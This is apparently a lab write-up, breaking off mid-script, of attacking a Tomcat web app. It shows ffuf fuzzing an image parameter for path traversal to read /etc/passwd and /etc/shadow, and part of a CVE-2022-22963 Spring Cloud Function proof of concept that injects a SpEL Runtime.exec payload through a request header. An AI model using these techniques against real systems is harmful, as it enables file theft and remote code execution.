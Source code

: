 ![](uploaded_image_req.png)

Test for LFI:

```bash
$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://10.10.11.204:8080/show_image?img=FUZZ' -ac -c

...snip...
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 228, Words: 23, Lines: 10, Duration: 39ms]
/../../../../../../../../../../etc/passwd [Status: 200, Size: 1986, Words: 17, Lines: 38, Duration: 30ms]
../../../../../../../dev [Status: 200, Size: 4020, Words: 1, Lines: 1, Duration: 42ms]
/../../../../../../../../../../etc/shadow [Status: 200, Size: 1345, Words: 1, Lines: 1, Duration: 33ms]
...snip...
```

Manually check the above findings:

![](lfi_req_passwd.png)

Two users along with `root`:
1. `frank`
2. `phil`

![](lfi_req_dev.png)

Since Tomcat is a Java web application server, we can get directory listing with LFI:

![](lfi_req_dir.png)

The `pom.xml` contains a listing of all the libs that JavaScript uses:

![](pom_xml.png)

![](pom_xml_content.png)

>Snyk Extension to scan via VS Code --> critical vuln [CVE-2022-22963](https://nvd.nist.gov/vuln/detail/CVE-2022-22963)

There is a [PoC](https://github.com/dinosn/CVE-2022-22963) available, but we will just get the info from there and exploit it manually:

```python
def scan(txt,cmd):

    payload=f'T(java.lang.Runtime).getRuntime().exec("{cmd}")'

    data ='test'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'
    f = open(txt)
    urllist=f.readlines()

    for  url  in  urllist :
        url = url.strip('\n')
        all = url + path
```